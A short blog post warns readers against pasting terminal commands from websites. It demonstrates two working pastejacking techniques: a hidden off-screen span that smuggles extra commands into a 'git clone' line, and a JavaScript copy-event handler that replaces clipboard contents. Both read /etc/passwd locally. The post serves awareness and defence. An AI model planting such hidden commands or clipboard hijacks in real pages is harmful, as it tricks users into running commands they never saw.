 ```yaml
---
layout: post
title: Dangerous Paste
date: '2018-04-24 13:11'
---
```

How many times have we been working hard on an issue, searching forums, blogposts, stack overflow, etc, and come across a proposed solution that says "just paste this into your terminal"? In the heat of the moment it is easy to forget that this situation deserves caution. The problem is that it is easy to sneak extra commands into those cut/copy/pastes thusly:

**example 1:**
{::nomarkdown}
    <code>
      <!-- Oh noes, you found it! credits go to http://thejh.net/misc/website-terminal-copy-paste-->
      git clone
      <span style="position: absolute; left: -100px; top: -100px">/dev/null; clear; echo -n "Hello ";whoami|tr -d '\n';echo -e '!\nThat was a bad idea. Don'"'"'t copy code from websites you don'"'"'t trust!<br>Here'"'"'s the first line of your /etc/passwd: ';head -n1 /etc/passwd<br>git clone </span>
      git://git.kernel.org/pub/scm/utils/kup/kup.git
    </code>
{:/}

**example 2:**
{::nomarkdown}
  <!-- credit to https://security.love/Pastejacking/ -->
 <code>echo "not evil"</code>
        <script>
            document.addEventListener('copy', function(e){
                console.log(e);
                e.clipboardData.setData('text/plain', 'echo "bad idea!" && head /etc/passwd\r\n');
                e.preventDefault(); // We want our data, not data from any selection, to be written to the clipboard
            });
        </script>
{:/}

Try them out by copying and pasting into bash like terminal window, I promise they're 100% benign. Credits in source html.